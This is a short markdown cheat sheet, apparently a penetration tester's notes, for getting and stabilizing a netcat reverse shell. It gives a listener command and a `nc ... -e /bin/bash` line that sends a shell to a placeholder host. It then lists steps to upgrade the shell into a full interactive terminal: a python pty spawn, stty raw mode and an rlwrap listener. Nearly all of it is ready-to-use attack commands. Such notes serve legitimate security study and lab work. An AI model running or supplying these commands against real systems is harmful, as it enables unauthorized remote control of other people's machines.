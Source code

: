 - `nc -lvnp <ip>`
- `nc <LOCAL-IP> <PORT> -e /bin/bash`
- nc stabilization
	- `python -c 'import pty;pty.spawn("/bin/bash")'`
	- `export TERM=xterm`
	- `ctrl + Z`
	- `stty raw -echo ; fg`
	- reset terminal after closing connection: `reset`
- `rlwrap nc -lvnp <port>` more stable listener (install with `sudo apt-get install rlwrap`)
- for linux: `Ctrl + z ; stty raw -echo ; fg`